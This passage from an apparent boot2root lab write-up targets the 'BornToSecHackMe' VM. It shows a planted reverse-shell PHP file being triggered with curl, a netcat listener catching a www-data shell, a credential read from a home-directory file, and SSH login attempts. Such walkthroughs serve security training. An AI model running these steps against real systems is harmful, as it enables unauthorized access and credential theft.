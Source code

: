 ```sh
curl -k 'https://192.168.56.103/forum/templates_c/revshell.php'
```

```sh
$ nc -lp 12345
www-data@BornToSecHackMe:/var/www/forum/templates_c$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Discovering

We can try to take a look at home directories

```sh
www-data@BornToSecHackMe:/var/www/forum/templates_c$ ls -la /home/
total 0
drwxrwx--x 9 www-data             root                 126 Oct 13  2015 .
drwxr-xr-x 1 root                 root                 200 Nov 16 15:20 ..
drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
drwxr-x--- 6 ft_root              ft_root              156 Jun 17  2017 ft_root
drwxr-x--- 3 laurie               laurie               143 Oct 15  2015 laurie
drwxr-x--- 4 laurie@borntosec.net laurie@borntosec.net 113 Oct 15  2015 laurie@borntosec.net
dr-xr-x--- 2 lmezard              lmezard               61 Oct 15  2015 lmezard
drwxr-x--- 3 thor                 thor                 129 Oct 15  2015 thor
drwxr-x--- 4 zaz                  zaz                  147 Oct 15  2015 zaz
www-data@BornToSecHackMe:/var/www/forum/templates_c$ cd /home/LOOKATME
www-data@BornToSecHackMe:/home/LOOKATME$ ls -la
total 1
drwxr-x--- 2 www-data www-data  31 Oct  8  2015 .
drwxrwx--x 9 www-data root     126 Oct 13  2015 ..
-rwxr-x--- 1 www-data www-data  25 Oct  8  2015 password
www-data@BornToSecHackMe:/home/LOOKATME$ cat password
lmezard:G!@M6f4Eatau{sF"
```

New credentials, let's try them into `ssh`

```sh
ssh lmezard@192.168.56.103
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
lmezard@192.168.56.103's password: 
Permission denied, please try again.
lmezard@192.168.56.103's password: 
Permission denied, please try again.
lmezard@192.168.56.103's password: 
lmezard@192.168.56.103: Permission denied (publickey,password).
```
